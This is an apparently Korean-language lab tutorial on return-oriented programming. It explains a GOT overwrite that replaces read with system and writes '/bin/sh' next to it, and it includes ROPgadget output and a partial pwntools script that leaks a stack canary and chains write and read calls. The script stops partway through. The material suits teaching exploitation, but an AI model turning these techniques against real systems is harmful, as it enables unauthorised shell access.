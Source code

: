 ### GOT Overwrite 및 “/bin/sh” 입력

- “/bin/sh”는 덮어쓸 GOT 엔트리 뒤에 같이 입력하면 됨
    - 본 문제에서는 입력을 위해 read함수를 사용할 수 있음
    - `read` 함수는 입력 스트림, 입력 버퍼, 입력 길이 세 개의 인자가 필요
    - 함수 호출 규약(SystemX interface)에 따르면 설정해야하는 레지스터는 `rdi` , `rsi` , `rdx` 임
- `rdx` 와 관련된 가젯은 바이너리에서 찾기가 어려움
    - 이럴 때는 libc의 코드 가젯이나, libc_csu_init 가젯을 사용하여 문제를 해결할 수 있음
    - 또는 `rdx` 의 값을 변화시키는 함수를 호출해서 값을 설정할 수도 있음
        - 예를 들면 `strncmp` 함수는 rax의 비교의 결과를 반환하고, rdx로 두 문자열의 첫 번째 문자부터 가장 긴 부분 문자열의 길이를 반환함
        - libc에 포함된 rdx 가젯
        
        ```python
        $ ROPgadget --binary ./libc.so.6 --re "pop rdx"
        ...
        0x000000000011f497 : pop rdx ; pop r12 ; ret
        0x0000000000090529 : pop rdx ; pop rbx ; ret
        ...
        0x0000000000108b13 : pop rdx ; pop rcx ; pop rbx ; ret
        ...
        ```
        
- 본 실습에선 `read` 함수의 GOT를 읽은 뒤 rdx값이 어느정도 크게 설정되므로, rdx를 설정 가젯을 추가하지는 않음(안정적인 익스플로잇을 작성하려면 가젯을 추가해도 좋음)
- `read` 함수, `pop rdi ; ret, pop rsi ; pop r15 ; ret` 가젯을 이용하여 `read` 의 GOT를 `system` 함수의 주소로 덮고, `read_got + 8` 에 “/bin/sh” 문자열을 쓰는 익스플로잇을 작성

```python
#!/usr/bin/env python3
# Name: rop.py
from pwn import *

def slog(name, addr): return success(': '.join([name, hex(addr)]))

p = process('./rop')
e = ELF('./rop')
libc = ELF('./libc.so.6')

# [1] Leak canary
buf = b'A'*0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

# [2] Exploit
read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
pop_rdi = 0x0000000000400853
pop_rsi_r15 = 0x0000000000400851
ret = 0x0000000000400854

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8

# write(1, read_got, ...)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(write_plt)

# read(0, read_got, ...)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(read_plt)

```
